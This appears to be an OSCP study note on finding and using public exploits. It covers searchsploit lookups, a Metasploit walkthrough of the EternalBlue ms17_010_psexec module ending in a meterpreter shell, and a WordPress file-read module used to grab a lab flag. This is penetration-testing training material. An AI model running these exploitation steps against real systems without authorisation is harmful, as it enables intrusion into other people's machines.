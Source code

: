 ```yaml
---
title: Public Exploits
date: 2024-10-23
tags:
  - "#oscp"
  - "#technique"
  - "#exploitation"
techniques: 
tools:
  - searchploit
  - exploitdb
  - msfconsole
machines: ""
difficulty:
  - ""
status:
  - Completed
type: ""
os: ""
categories:
  - ""
exam-priority:
  - medium
time-invested: ""
notes: |
  Key points and takeaways from the exercise.
---
```


### References
- [Example Tutorial](https://example.com/tutorial)
- [OSCP Exploit Documentation](https://documentation.oscp.org/exploitations)


### 1. **Public Exploits**

- **Objective**: Identify vulnerabilities in running services.
- **Tools**:
    - **Searchsploit**: Use this tool to search for known exploits of services running on the target.Example:
        
        ```bash
        searchsploit openssh 7.2
        ```
        
    - **Google Search**: A simple way to search for vulnerabilities.Example:
        
        ```bash
        "<service/application> exploit CVE"
        ```
        

### 2. **Using Searchsploit**

- **Install Searchsploit**:
    
    ```bash
    sudo apt install exploitdb -y
    ```
    
- **Search for Exploits**:
    
    ```bash
    sudo searchsploit <service_name> <version>
    ```
    

### 3. **Metasploit Framework (MSF)**

- **Purpose**: To use existing exploits and payloads for vulnerability testing.
- **Steps**:
    1. **Launch Metasploit**:
        
        ```bash
        sudo msfconsole
        ```
        
    2. **Search for Exploit**:
        
        ```bash
        search exploit eternalblue
        ```
        
    3. **Use Exploit**:
        
        ```bash
        use exploit/windows/smb/ms17_010_psexec
        ```
        
    4. **Set Exploit Options**:
        
        - Set the target host (RHOSTS) and attacker’s host (LHOST).Example:
            
            ```bash
            set RHOSTS <target_ip>
            set LHOST tun0
            ```
            
    5. **Run the Exploit**:
        
        - Verify the target’s vulnerability:
            
            ```bash
            check
            ```
            
        - Execute the exploit:
            
            ```bash
            exploit
            ```
            
    6. **Post-exploitation**:
        
        - Once a session is open, gain full control with:Example to check privileges:
            
            ```bash
            meterpreter > shell
            ```
            
            ```bash
            getuid
            ```
            

### 4. **Practice**

- Recommended retired Hack The Box machines for practicing Metasploit:
    - **Granny/Grandpa**
    - **Jerry**
    - **Blue**
    - **Legacy**
    - **Devel**

---

### Quick Notes for Exam/Test Use:

- **Search for Exploits**: Always start with **Nmap**, **Searchsploit**, or Google.
- **Metasploit Basics**:
    - **Launch** → `msfconsole`
    - **Search** → `search exploit <vulnerability>`
    - **Use Exploit** → `use exploit/<path>`
    - **Set Options** → `set RHOSTS <target_ip>`, `set LHOST <your_ip>`
    - **Run** → `exploit`
- **Don’t Rely Solely on Metasploit**: Practice manual exploitation and use other tools when needed.

### **Exercise**

Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

1. search for payload that reads files

```bash
msf > use auxiliary/scanner/http/wp_simple_backup_file_read
set RHOSTS
set RPORT
set FILEPATH </FLAG.TXT>
// run then you will get a link where you cant cat it and see the flag. 
```